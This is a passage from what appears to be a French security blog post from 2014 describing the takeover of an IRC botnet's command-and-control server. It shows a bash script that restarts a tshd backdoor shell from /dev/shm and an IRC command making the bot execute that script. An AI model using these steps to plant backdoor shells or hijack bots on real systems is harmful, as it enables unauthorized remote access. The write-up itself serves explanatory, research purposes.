 ```bash
#!/bin/bash
killall tshd
/dev/shm/tshd&
```

J'ai procédé de la sorte car j'ai remarqué que le bot digère mal les arguments (exemple avec *uname -a*) :  

```plain
sh: uname -a : commande introuvable
```

Il ne me restait qu'à faire lancer mon script par le bot :  

```plain
/msg jhl27 !bot @system '/dev/shm/replace.sh'
```

J'ai vu ma connexion tsh se fermer et à la reconnection : bingo ! un C&C pwned :)  


*Published May 30 2014 at 18 50*
